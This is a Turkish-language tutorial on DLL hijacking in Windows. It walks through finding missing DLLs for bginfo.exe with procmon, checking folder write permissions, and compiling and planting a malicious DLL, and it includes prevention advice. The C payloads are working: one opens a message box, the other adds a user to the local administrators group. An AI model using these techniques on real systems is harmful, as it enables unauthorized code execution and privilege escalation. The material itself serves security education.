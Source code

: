 \newpage
\subsection{6. Windows'ta DLL kaçırma (DLL Hijacking). Basit bir C örneği.}

﷽

![DLL hijacking](./images/8/2021-09-25_12-09.png){width="75%"}

DLL kaçırma (DLL Hijacking) nedir? DLL kaçırma, meşru/güvenilir bir uygulamayı, kötü amaçlı bir DLL'yi yüklemeye kandırma tekniğidir.     

Windows ortamlarında, bir uygulama veya hizmet başlatılırken düzgün çalışması için bir dizi DLL arar. İşte Windows'ta varsayılan DLL arama sırasını gösteren bir diyagram:    

![DLL hijacking](./images/8/dllhijack.png){width="75%"}

Bu yazımızda yalnızca en basit durumu ele alacağız: bir uygulamanın dizininin yazılabilir olması. Bu durumda, uygulama tarafından yüklenen herhangi bir DLL kaçırılabilir, çünkü arama sürecinde kullanılan ilk konum burasıdır.     

### Adım 1. Eksik DLL'leri olan süreci bulun

Bir sistemde eksik DLL'leri bulmanın en yaygın yolu, sysinternals aracından [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) çalıştırmaktır. Aşağıdaki filtreleri ayarlayın:

![procmon with filters](./images/8/2021-09-25_11-52.png){width="75%"}

Bu, uygulamanın yüklemeye çalıştığı herhangi bir DLL olup olmadığını ve eksik DLL'i aradığı gerçek yolu belirleyecektir:     

![procmon missing dlls](./images/8/2021-09-25_11-53.png){width="75%"}

Örneğimizde, `Bginfo.exe` süreci birkaç eksik DLL'e sahip ve bu DLL'ler muhtemelen DLL kaçırma için kullanılabilir. Örneğin, `Riched32.dll`.  

### Adım 2. Klasör izinlerini kontrol edin

Klasör izinlerini kontrol etmek için şu komutu çalıştırın:

```powershell
icacls C:\Users\user\Desktop\
```

![folder permissions](./images/8/2021-09-25_14-42.png){width="75%"}

[Belgelerde](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) belirtildiği üzere, bu klasöre yazma erişimimiz var.    

### Adım 3. DLL Kaçırma

Öncelikle, `bginfo.exe`'yi çalıştırın:     
![run bginfo](./images/8/2021-09-25_11-54.png){width="75%"}

Bu nedenle, `bginfo.exe` ile aynı dizine `Riched32.dll` adında bir DLL yerleştirirsem, bu araç çalıştırıldığında kötü niyetli kodum da çalıştırılacaktır. Basitlik açısından, sadece bir mesaj kutusu açan bir DLL oluşturuyorum:   

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Derlemek için (saldırgan makinesinde):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](./images/8/2021-09-25_11-58.png){width="75%"}

Sonra DLL'in adını `Riched32.dll` olarak değiştirip, `C:\Users\user\Desktop\` DLL  dizinine kopyalayacağız:

![replace DLL](./images/8/2021-09-25_14-54.png){width="75%"}

Şimdi `bginfo.exe`'yi başlatın:     

![run process 1](./images/8/2021-09-25_12-00.png){width="75%"}

![run process 2](./images/8/2021-09-25_12-04.png){width="75%"}

Gördüğünüz gibi, kötü amaçlı mantığımız çalıştırıldı:    

`bginfo.exe` ve kötü amaçlı Riched32.dll aynı klasörde bulunuyor **(1)**      
`bginfo.exe` başlatılıyor **(2)**   
Mesaj kutusu açılıyor! **(3)**       

### Önleme

En basit önleme adımları, tüm yüklü yazılımların korunan `C:\Program Files` veya `C:\Program Files (x86)` dizinlerine kurulmasını sağlamaktır. Eğer yazılım bu konumlara yüklenemiyorsa, bir sonraki en kolay çözüm, kurulum dizinine yalnızca Yönetici (Administrative) kullanıcıların "oluşturma" veya "yazma" izinlerine sahip olmasını sağlamaktır. Bu, saldırganın kötü amaçlı bir DLL yerleştirerek sömürüyü gerçekleştirmesini engeller.     

### Yetki Yükseltme 

DLL kaçırma, yalnızca kod çalıştırmak için değil, aynı zamanda kalıcılık ve yetki yükseltme elde etmek için de kullanılabilir:     

Diğer yetkilerle çalışan veya çalışacak bir süreç bulun (yatay/lateral hareket) ve eksik bir DLL arayın.     
DLL'nin aranacağı herhangi bir klasörde (muhtemelen çalıştırılabilir dosya dizini veya sistem yolu içindeki bir klasör) yazma izniniz olduğundan emin olun.    
Ardından, kodumuzu aşağıdaki gibi değiştirin:    

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    system("cmd.exe /k net localgroup administrators user /add");
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

*Derleme, x64 için: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*x86 için: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Sonraki adımlar öncekiyle aynıdır. DLL'yi hedef süreç dizinine yerleştirin ve çalıştırılabilir dosyayı başlatın. Bu kod, kullanıcıyı “administrators" grubuna ekleyecektir.    

### Sonuç

Ancak her durumda, bir uyarı var.     

Bazı durumlarda, derlediğiniz DLL'nin, kurban süreci tarafından yüklenebilmesi için birden fazla fonksiyonu dışa aktarması gerekebilir. Bu fonksiyonlar yoksa, çalıştırılabilir dosya DLL'yi yükleyemez ve sömürü başarısız olur.  

Mevcut DLL'lerin özel sürümlerini derlemek, göründüğünden daha zorlu olabilir, çünkü birçok çalıştırılabilir dosya, gerekli prosedürler veya giriş noktaları eksikse bu tür DLL'leri yüklemez. [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) gibi araçlar, meşru DLL'lerin tüm dış fonksiyon adlarını ve sıralamalarını listelemek için kullanılabilir. Derlenen DLL'nin aynı formatı takip ettiğinden emin olmak, başarıyla yüklenme olasılığını artıracaktır.  

Gelecekte, bu konuyu anlamaya çalışacağım ve hedef orijinal DLL'den bir `.def` dosyası oluşturan bir Python script'ini yazmayı deneyeceğim.     

Kullanılan araçlar ve yöntemler:     
[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)

[Github’taki kaynak kod](https://github.com/cocomelonc/2021-09-24-dllhijack)     

Not: Denemek isterseniz, savunmasız bginfo (sürüm 4.16) GitHub'a eklendi.    
